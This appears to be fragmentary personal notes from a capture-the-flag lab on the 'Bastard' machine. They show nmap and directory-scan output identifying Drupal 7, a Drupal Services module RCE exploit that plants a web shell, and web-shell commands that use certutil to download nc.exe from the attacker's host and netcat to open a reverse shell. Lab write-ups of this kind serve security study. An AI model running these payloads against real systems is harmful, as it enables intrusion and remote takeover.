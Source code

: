 └─$ nmap -sC -sV 10.10.10.9
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-18 08:36 EST
Nmap scan report for 10.10.10.9
Host is up (0.30s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to Bastard | Bastard
|_http-server-header: Microsoft-IIS/7.5
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

### ferox buster

```
301      GET        2l       10w      149c http://10.10.10.9/modules => http://10.10.10.9/modules/
301      GET        2l       10w      150c http://10.10.10.9/profiles => http://10.10.10.9/profiles/
301      GET        2l       10w      148c http://10.10.10.9/themes => http://10.10.10.9/themes/
301      GET        2l       10w      147c http://10.10.10.9/sites => http://10.10.10.9/sites/
301      GET        2l       10w      146c http://10.10.10.9/misc => http://10.10.10.9/misc/
301      GET        2l       10w      149c http://10.10.10.9/scripts => http://10.10.10.9/scripts/
301      GET        2l       10w      150c http://10.10.10.9/includes => http://10.10.10.9/includes/
403      GET       29l       92w     1233c http://10.10.10.9/tag
403      GET       29l       92w     1233c http://10.10.10.9/admin
403      GET       29l       92w     1233c http://10.10.10.9/search
200      GET      159l      413w     7571c http://10.10.10.9/
403      GET       29l       92w     1233c http://10.10.10.9/template
301      GET        2l       10w      149c http://10.10.10.9/Scripts => http://10.10.10.9/Scripts/
301      GET        2l       10w      156c http://10.10.10.9/modules/search => http://10.10.10.9/modules/search/
301      GET        2l       10w      154c http://10.10.10.9/modules/user => http://10.10.10.9/modules/user/
301      GET        2l       10w      154c http://10.10.10.9/modules/node => http://10.10.10.9/modules/node/
301      GET        2l       10w      155c http://10.10.10.9/modules/forum => http://10.10.10.9/modules/forum/
301      GET        2l       10w      157c http://10.10.10.9/modules/contact => http://10.10.10.9/modules/contact/
301      GET        2l       10w      157c http://10.10.10.9/modules/comment => http://10.10.10.9/modules/comment/
301      GET        2l       10w      154c http://10.10.10.9/modules/blog => http://10.10.10.9/modules/blog/
301      GET        2l       10w      154c http://10.10.10.9/modules/help => http://10.10.10.9/modules/help/
301      GET        2l       10w      159c http://10.10.10.9/includes/database => http://10.10.10.9/includes/database/
301      GET        2l       10w      153c http://10.10.10.9/modules/php => http://10.10.10.9/modules/php/
301      GET        2l       10w      156c http://10.10.10.9/modules/Search => http://10.10.10.9/modules/Search/
301      GET        2l       10w      156c http://10.10.10.9/modules/system => http://10.10.10.9/modules/system/
301      GET        2l       10w      154c http://10.10.10.9/modules/poll => http://10.10.10.9/modules/poll/
301      GET        2l       10w      155c http://10.10.10.9/modules/image => http://10.10.10.9/modules/image/
301      GET        2l       10w      160c http://10.10.10.9/modules/aggregator => http://10.10.10.9/modules/aggregator/
301      GET        2l       10w      157c http://10.10.10.9/modules/profile => http://10.10.10.9/modules/profile/
301      GET        2l       10w      158c http://10.10.10.9/modules/taxonomy => http://10.10.10.9/modules/taxonomy/
301      GET        2l       10w      160c http://10.10.10.9/modules/node/tests => http://10.10.10.9/modules/node/tests/
301      GET        2l       10w      148c http://10.10.10.9/Themes => http://10.10.10.9/Themes/
301      GET        2l       10w      150c http://10.10.10.9/Includes => http://10.10.10.9/Includes/
301      GET        2l       10w      154c http://10.10.10.9/modules/menu => http://10.10.10.9/modules/menu/
301      GET        2l       10w      154c http://10.10.10.9/modules/book => http://10.10.10.9/modules/book/
301      GET        2l       10w      158c http://10.10.10.9/profiles/testing => http://10.10.10.9/profiles/testing/
301      GET        2l       10w      157c http://10.10.10.9/modules/tracker => http://10.10.10.9/modules/tracker/
301      GET        2l       10w      166c http://10.10.10.9/profiles/testing/modules => http://10.10.10.9/profiles/testing/modules/
301      GET        2l       10w      159c http://10.10.10.9/Includes/database => http://10.10.10.9/Includes/database/
301      GET        2l       10w      156c http://10.10.10.9/modules/update => http://10.10.10.9/modules/update/
301      GET        2l       10w      154c http://10.10.10.9/modules/file => http://10.10.10.9/modules/file/
301      GET        2l       10w      160c http://10.10.10.9/modules/statistics => http://10.10.10.9/modules/statistics/
301      GET        2l       10w      162c http://10.10.10.9/modules/search/tests => http://10.10.10.9/modules/search/tests/
301      GET        2l       10w      162c http://10.10.10.9/modules/system/tests => http://10.10.10.9/modules/system/tests/
301      GET        2l       10w      154c http://10.10.10.9/modules/User => http://10.10.10.9/modules/User/
403      GET       29l       92w     1233c http://10.10.10.9/Template
301      GET        2l       10w      160c http://10.10.10.9/modules/user/tests => http://10.10.10.9/modules/user/tests/
301      GET        2l       10w      156c http://10.10.10.9/modules/filter => http://10.10.10.9/modules/filter/
301      GET        2l       10w      162c http://10.10.10.9/modules/Search/tests => http://10.10.10.9/modules/Search/tests/
301      GET        2l       10w      155c http://10.10.10.9/modules/Forum => http://10.10.10.9/modules/Forum/
[>---
```

https://github.com/immunIT/drupwn.git

![](20230218113446.png)  

not able to pawn through Dupwn

using searchsploit

`searchsploit drupal` 


![](20230219071546.png) 

└─$ php 41564.php     
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://10.10.10.9/dixuSOspsOUU.php

 
`cp /usr/share/windows-resources/binaries/nc.exe nc.exe`
`python3 -m http.server 80`


`http://10.10.10.9/dixuSOspsOUU.php?cmd=certutil.exe -f -urlcache -split http://10.10.14.19:8000/nc.exe nc.exe`

`http://10.10.10.9/dixuSOspsOUU.php?cmd=nc.exe -e cmd 10.10.14.19 1234`

![](20230219073159.png)  

unable to run nc connect commands

